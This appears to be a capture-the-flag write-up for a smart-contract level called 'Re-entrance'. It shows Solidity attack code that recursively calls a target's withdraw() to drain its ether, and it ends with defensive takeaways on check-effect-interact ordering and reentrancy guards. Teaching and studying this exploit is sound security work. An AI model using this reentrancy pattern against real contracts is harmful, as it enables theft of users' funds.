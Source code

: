     # 10 Re-entrance

    The goal of this level is for you to steal all the funds from the contract.

    Things that might help:

    >Untrusted contracts can execute code where you least expect it.
    >Fallback methods
    >Throw/revert bubbling
    >Sometimes the best way to attack a contract is with another contract.
    See the Help page above, section "Beyond the console"

    ---
    This level demonstrates how a reentrancy exploit can be used to siphon funds out of a contract. Here's a graphic from quantstamp that outlines a reentrancy.

    ![](./Reentrance.png)

    **Solution:**
    First we create an attacking contract that inherits the `Reentrance.sol` contract. We'll create this function: `attack()`

    ```-
    function attack() external payable {
        require(msg.value >= 0.1 ether);

        initDeposit = msg.value;
        target.donate{value: initDeposit}(address(this)); 

        callWithdraw();
    }
    ```
    We'll seed it with some ether and then recursively call the `withdraw()` function

    ```-
    function callWithdraw() private {
            //update remaining balance for each withdraw
            uint256 remainingBal = address(target).balance;
            //check if there are more tokens to steal
            bool continueRecursing = remainingBal > 0;

            if(continueRecursing) {
                //we're only allowed to withdraw at most our initial deposit
                uint256 withdrawAmt = 
                    initDeposit < remainingBal
                        ? initDeposit
                        : remainingBal;
                    target.withdraw(withdrawAmt);
            }   
        }
    ```
    Checks are included to make sure that we don't withdraw more than the target contract contains. If we withdraw too much, our transaction will revert. 

    **Takeaways:**
    - Use Check > Effect > Interact pattern. The wrong order will allow for a reentrancy attack. 
    - Optionally, use a mutex (oz reentrancyguard) modifier. 